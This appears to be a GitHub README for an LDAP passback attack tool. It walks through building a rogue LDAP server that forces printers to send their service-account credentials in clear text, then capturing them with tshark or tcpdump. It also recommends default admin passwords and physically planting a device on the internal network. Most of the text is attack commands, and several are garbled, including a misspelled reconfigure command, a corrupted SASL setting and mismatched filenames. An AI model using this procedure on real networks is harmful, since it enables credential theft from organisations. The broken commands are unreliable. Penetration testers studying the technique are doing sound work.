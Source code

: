 # LDAP Passback

In case a printer (or something similar) has an LDAP account, but use the SASL authentication family instead of SIMPLE, the classic LDAP passback exploitation with a nc server will not be sufficient to retrieve the credentials in clear text. Instead, use a custom LDAP server that only offer the weak PLAIN and LOGIN protocols. This Docker permits to operate with weak protocols.

### 1) Setup rogue LDAP server

    docker buildx build -t ldap-passback .
    docker run --rm -ti -p 389:389 ldap-passback

### 2) Listen with tshark to capture plain-text credentials

    tshark -i any -f "port 389" -Y "ldap.protocolOp == 0 && ldap.simple" -e ldap.name -e ldap.simple -Tjson
  
## Requirements: 

#### Initial access to the internal network (example: plugging in a rogue device in a boardroom)

#### Gain access to a device's configuration where the LDAP parameters are specified. (Example: the web interface of a network printer)

#### They have usually default credentials (admin:admin, admin:password, etc.)

#### Host a rogue LDAP server:

#### 

    sudo systemctl enable slapd

#### 

    sudo delay-reconfigure -p low slapd

#### 1: 

    No

#### 2: 

    Enter target domain

#### 3: 

    Organization name

#### 4: 

    Any admin password

#### 5: 

    Set MDB as the LDAP database

#### 6: 

    No 

#### 7: 

    Yes

#### 8: Create new ldif file

### Example: 

     #dcSaslSecProps.ldif

     dn: cn=config

    replace:olcSaslSecProps

     olcSaslSecProps: noanonymous,minssf=Qpasscred

     minssf = (No protection)

     noanonymous = (Disables anonymous login)

     olcSaslSecProps = (Specifies the SASL security properties)

#### 9: 

    sudo ldapmodify -Y EXTERNAL -H ldap:// -f ./olcSaslSecProps.ldif && sudo service slapd restart

#### 10: Verify with: 

    ldapsearch -H ldap:// -x -LLL -s base -b " " supportedSASLmechanisms)

#### 11: Capture LDAP credentials

#### 

    sudo tcpdump -SX -i TARGET_INTERFACE tcp port 389

### We should get credentials in plain text.
